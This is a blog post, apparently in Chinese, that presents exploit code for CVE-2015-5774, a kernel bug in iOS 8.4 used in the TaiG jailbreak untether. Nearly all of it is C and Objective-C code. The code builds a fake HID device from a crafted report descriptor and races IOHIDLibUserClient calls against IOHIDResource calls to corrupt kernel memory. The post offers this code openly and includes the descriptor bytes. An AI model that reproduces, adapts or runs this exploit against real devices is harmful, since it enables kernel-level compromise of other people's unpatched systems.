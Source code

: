 ```yaml
---
layout: post
title: CVE-2015-5774利用代码(exploit)
---
```

CVE-2015-5774 Exploit code

iOS8.4untether [taig]({{ site.baseurl }}/{{ site.data }}/CVE-2015-5774Code/taig). 
{% highlight bash %}
#import <Foundation/Foundation.h>
#include <stdio.h>
#include <stdlib.h>
#include <mach/mach_host.h>
#include <mach/mach_port.h>
#include <IOKit/IOKitLib.h>    
#include <IOKit/IOCFSerialize.h>
#include <IOKit/IODataQueueClient.h>
#include <pthread/pthread.h>
  
#define NSLog(FORMAT,args...) printf("%s\n",[[NSString stringWithFormat:FORMAT,args]UTF8String])
 
kern_return_t ret;  
io_connect_t hid_connect;
 
void input_data(void *arg);  
int updateElementValuesCall(void);
{% endhighlight %}

{% highlight bash %}
int main (int argc, const char * argv[])
{
    
    CFMutableDictionaryRef cfdic = CFDictionaryCreateMutable(kCFAllocatorDefault,0x0, &kCFTypeDictionaryKeyCallBacks,&kCFTypeDictionaryValueCallBacks);
    void *byte = malloc(0x1000);
    memset(byte,0x00,0x161);
    input_data(byte);
    CFDataRef data = CFDataCreate(kCFAllocatorDefault,byte,0x161);
    CFStringRef str = CFSTR("ReportDescriptor");
    CFDictionarySetValue(cfdic,str,data);
    CFDataRef list_data = CFPropertyListCreateData(kCFAllocatorDefault,cfdic,0x64,0x0,NULL);
    void *z_data = malloc(0x3000);
    memset(z_data,0x0,0x3000);
    memcpy(z_data,CFDataGetBytePtr(list_data),CFDataGetLength(list_data));
    //FILE *_f = fopen("/test/test.txt","wb");
    //fwrite(z_data,strlen(z_data),1,_f); 导出IOHID描述符
    
    CFDictionaryRef dic = IOServiceMatching("IOHIDResource");
    io_service_t service = IOServiceGetMatchingService(kIOMasterPortDefault,dic);
    
    io_connect_t IOHIDResource_connect;
    if(service==0){
        printf("service is 0\n");
        exit(1);
    }
    ret = IOServiceOpen(service, mach_task_self(),0,&IOHIDResource_connect);
    printf("IOHIDResource:IOServiceOpen ret is %x\n",ret);
    printf("connect is %x\n",IOHIDResource_connect);
    
    natural_t obj_typ;
    mach_vm_address_t obj_add;
    if(mach_port_kobject(mach_task_self(),IOHIDResource_connect,&obj_typ,&obj_add)==KERN_SUCCESS){
        
        UInt64 input=0;
        printf("strnlem is %zu\n",strnlen((char *)z_data,0x30000));
        ret = IOConnectCallMethod(IOHIDResource_connect,0,&input,0x1,z_data,strlen(z_data)+1,NULL,NULL,NULL,NULL);
        printf("IOConnectCallMethod:0x%x\n",ret);
        if(ret!=KERN_SUCCESS){
            exit(1);
        }
    }else{
        printf("Create IOHIDUserDevice: mach_port_kobject !=0\n");
    }
    
    printf("*****Create IOHIDUserDevice*****Success\n");
    
    
    io_iterator_t iterator;
    io_service_t hid_service = 0;
    if(IOConnectGetService(IOHIDResource_connect,&hid_service)!=KERN_SUCCESS){
        printf("IOConnectGetService faild :return 0\n");
        exit(1);
    }
    
    if(IORegistryEntryCreateIterator(hid_service,kIOServicePlane,0x0,&iterator)!=KERN_SUCCESS){
        printf("IORegistryEntryCreateIterator faild\n");
        exit(1);
    }
    
    io_service_t libUser = IOIteratorNext(iterator);
    
    CFMutableDictionaryRef properties;
    ret = IORegistryEntryCreateCFProperties(libUser,&properties,kCFAllocatorDefault,0);
    if(ret!=KERN_SUCCESS){
        printf("IORegistryEntryCreateCFProperties faild\n");
        exit(1);
    }
    ret = IORegistryIteratorEnterEntry(iterator);
    libUser = IOIteratorNext(iterator);
    IORegistryEntryCreateCFProperties(libUser,&properties,kCFAllocatorDefault,0);
    printf("success class is %s\n",CFStringGetCStringPtr(IOObjectCopyClass(libUser),kCFStringEncodingUTF8));
    //NSLog(@"%@",(__bridge NSDictionary*)properties);
    ret = IOServiceOpen(libUser,mach_task_self(),0,&hid_connect);
    if(ret!=KERN_SUCCESS){
        printf("IOHIDUserDevice: IOServiceOpen ret is %d\n",ret);
        exit(1);
    }
    printf("*****get IOHIDUserDevice connect*****Success\n");
    
    mach_vm_address_t atAddress = 0;
    mach_vm_size_t ofSize = 0;
    
    IOConnectMapMemory(IOHIDResource_connect,0,mach_task_self(),&atAddress,&ofSize,kIOMapAnywhere);
    
    
    uint32_t DataQueue_dataSize = 0;
    if(IODataQueuePeek(atAddress)!=0){
        do{
            DataQueue_dataSize = 0;
            IODataQueueDequeue(atAddress,0x0,&DataQueue_dataSize);
        }while (IODataQueuePeek(atAddress)!=0);
    }
    
    uint64_t input[2] = {0,0};
    void *inputStruct = malloc(0x130);
    memset(inputStruct,0xAA,0x130);
    size_t inputStructCnt = 0x130;
    
    pthread_t thread_res = 0;
    
    ret = pthread_create(&thread_res,0,(void *(*)(void *))&updateElementValuesCall,0);
    if(ret!=0){
        printf("pthread_create faild\n");
        exit(1);
    }
    int alright_done = 0;
    int i = 0;
    do{
        usleep(0x7d0);
        if(IODataQueuePeek(atAddress)!=0){
            ret = IOConnectCallMethod(IOHIDResource_connect,0x3,input,0x2,inputStruct,inputStructCnt,NULL,NULL,NULL,NULL);
            if(ret==KERN_SUCCESS){
                input[0] = 0;
                input[1] = 1;
            }
            else{
                printf("IOHIDResource call 0x3 faild\n");
                exit(1);
            }
            alright_done++;
            IODataQueueDequeue(atAddress,0x0,&DataQueue_dataSize);
            if(alright_done>=2) break;
        }
        i++;
    }while(i<=9);
    
    if(alright_done==2){
        printf("Success:index:0x%x\n",i);
    }
    
    sleep(3);
    return 0;
}
{% endhighlight %}

{% highlight bash %}
int updateElementValuesCall(){
    
    uint64_t update_input[2] = {0x2,0x2}; //太极为{0x2,0x82}
    uint32_t update_outputCnt = 0;
    
    ret = IOConnectCallScalarMethod(hid_connect,0xa,update_input,0x2,NULL,&update_outputCnt);
    if(ret!=KERN_SUCCESS){
        printf("IOConnectCallScalarMethod faild:0x%x\n",ret);
        exit(1);
    }
    else{printf("*****IOHIDLibUserClient::_updateElementValues*****Success\n");
    }
    return 0;
}
{% endhighlight %}

{% highlight bash %}
void input_data(void *arg) {
    char byte[] = {0x07,0xfe,0xff,0xff,0xff,0x27,0xff,0xff,0xff,0xff,0x17,0xff,0xff,0xff,0xff,0x47,0xff,0xff,0xff,0xff,0x37,0xff,0xff,0xff,0xff,0xa7,0x00,0x00,0x00,0x00,0xb7,0x00,0x00,0x00,0x00,0xa3,0xfd,0xff,0xff,0xff,0x07,0x00,0x00,0x00,0x00,0x0a,0x00,0x00,0x27,0x00,0x00,0x00,0x00,0x17,0x00,0x00,0x00,0x00,0x47,0x00,0x00,0x00,0x00,0x37,0x00,0x00,0x00,0x00,0x67,0x00,0x00,0x00,0x00,0x57,0x00,0x00,0x00,0x00,0x77,0x08,0x00,0x00,0x00,0x97,0x7f,0x00,0x00,0x00,0x87,0x01,0x00,0x00,0x00,0x93,0x03,0x00,0x00,0x00,0x07,0x00,0x00,0x00,0x00,0x0a,0x00,0x00,0x27,0x00,0x00,0x00,0x00,0x17,0x00,0x00,0x00,0x00,0x47,0x00,0x00,0x00,0x00,0x37,0x00,0x00,0x00,0x00,0x67,0x00,0x00,0x00,0x00,0x57,0x00,0x00,0x00,0x00,0x77,0x08,0x00,0x00,0x00,0x97,0x7f,0x00,0x00,0x00,0x87,0x02,0x00,0x00,0x00,0x93,0x03,0x00,0x00,0x00,0xc3,0x00,0x00,0x00,0x00};
    memcpy(arg,byte,sizeof(byte));
    //这段是太极使用的IOHID描述符,解析函数在IOHIDReportDescriptorParser.c的PrintHIDDescriptor函数
}
{% endhighlight %}
